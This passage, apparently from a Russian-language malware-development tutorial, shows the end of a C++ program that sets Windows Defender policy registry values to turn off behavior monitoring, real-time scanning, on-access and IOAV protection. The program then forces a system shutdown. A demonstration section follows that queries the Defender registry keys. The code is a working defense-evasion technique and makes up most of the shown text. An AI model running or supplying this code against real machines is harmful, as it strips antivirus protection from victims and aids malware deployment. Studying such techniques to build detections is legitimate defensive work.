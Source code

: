 ```cpp
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableBehaviorMonitoring", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableOnAccessProtection", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableIOAVProtection", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));

    RegCloseKey(key);
    RegCloseKey(new_key);
  }

  printf("perfectly disabled :)\n");
  printf("press any key to restart to apply them.\n");
  system("pause");
  system("C:\\Windows\\System32\\shutdown /s /t 0");
  return 1;
}
```

### демонстрация

Давайте посмотрим, как это работает. Прежде всего, проверим текущий статус Windows Defender:    

![av](./images/57/2022-06-05_12-19.png){width="80%"}    

А также проверим ключи реестра:    

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```
